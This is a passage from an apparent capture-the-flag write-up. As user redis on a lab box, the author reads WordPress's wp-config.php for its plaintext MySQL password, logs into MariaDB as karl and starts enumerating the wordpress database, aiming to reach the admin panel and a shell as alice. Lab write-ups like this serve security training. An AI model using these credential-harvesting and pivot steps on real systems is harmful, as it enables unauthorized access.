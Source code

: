 We know that there is a running instance of **WordPress** on the system under the Apache service. If we somehow manage to write a PHP file by abusing WordPress, we could gain access as alice. 

To start with, every WordPress instance runs a database in the background, and the access configuration is stored in the `wp-config.php` file, which contains the plain-text database access password.

Within the WordPress database, we can find the user credentials. If we manage to obtain them, we could access the WordPress admin panel and from there gain a shell as **alice**.

In this case, the file is located at `/var/www/html/wp-config`, and it contains the access keys for `MySQL`.

```bash
redis@readys:/var/www/html$ cat wp-config.php
<?php
/**
...
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'karl' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Wordpress1234' );
```
{: .nolineno }

We connect to MySQL with the credentials of **karl**.

```bash
redis@readys:/var/www/html$ mysql -u karl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 37
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
{: .nolineno }

**MySQL Enumeration**

- Databases

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```
{: .nolineno }
